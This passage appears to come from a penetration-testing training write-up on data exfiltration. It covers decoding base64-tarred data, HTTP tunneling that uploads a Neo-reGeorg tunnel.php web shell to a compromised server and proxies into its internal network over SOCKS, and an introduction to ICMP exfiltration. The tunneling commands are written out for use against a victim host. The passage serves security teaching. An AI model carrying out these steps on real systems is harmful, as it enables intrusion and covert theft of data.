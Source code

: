 ```
sudo sed -i 's/ /+/g' /tmp/data.bs64
cat /tmp/data.bs64 | base64 -d | tar xvfz -
```

Using the `sed` command, we replaced the spaces with + characters to make it a valid base64 string! additionally we decoded the base64 string using the `base64` command with -d argument, then we passed the decoded file and unarchived it using the tar command

**HTTP Tunneling**

**Definition**

Tunneling over the HTTP protocol technique encapsulates other protocols and sends them back and forth via the HTTP protocol. HTTP tunneling sends and receives many HTTP requests depending on the communication channel!

On the attacker machine we need to generate an encrypted client file to upload it to the victim web server.

```
sudo git clone https://github.com/L-codes/Neo-reGeorg

python3 neoreg.py generate -k exfil-key

```

The previous command generates encrypted Tunneling clients with `exfil-key` key in the neoreg\_servers/ directory. Note that there are various extensions available, including PHP, ASPX, JSP, etc. In our scenario, we will be uploading the `tunnel.php` file to the `compromised machine`.

Once you upload the client-tunnel file to the compromised machine, head to the attacker machine and execute the below. We need to use the neoreg.py to connect to the client and provide the key to decrypt the tunneling client. We also need to provide a URL to the PHP file that we uploaded on the uploader machine.

```
python3 neoreg.py -k exfil-key -u http://victim-ip/../tunnel.php
```

Once it is connected to the tunneling client, we are ready to use the tunnel connection as a proxy binds on our local machine, `127.0.0.1, on port 1080.`

On the attacker machine, we can now access resources on the internal network of the victim that wouldn't be otherwise accessed from the internet.

```
curl --socks5 127.0.0.1:1080 http://webserver.com:80
```

#### ICMP

**Definition**

On a high level, the ICMP packet's structure contains a Data section that can include strings or copies of other information, such as the IPv4 header, used for error messages. The following diagram shows the Data section, which is optional to use.

Note that the Data field is optional and could either be empty or it could contain a random string during the communications. As an attacker, we can use the ICMP structure to include our data within the Data section and send it via ICMP packet to another machine. The other machine must capture the network traffic with the ICMP packets to receive the data.
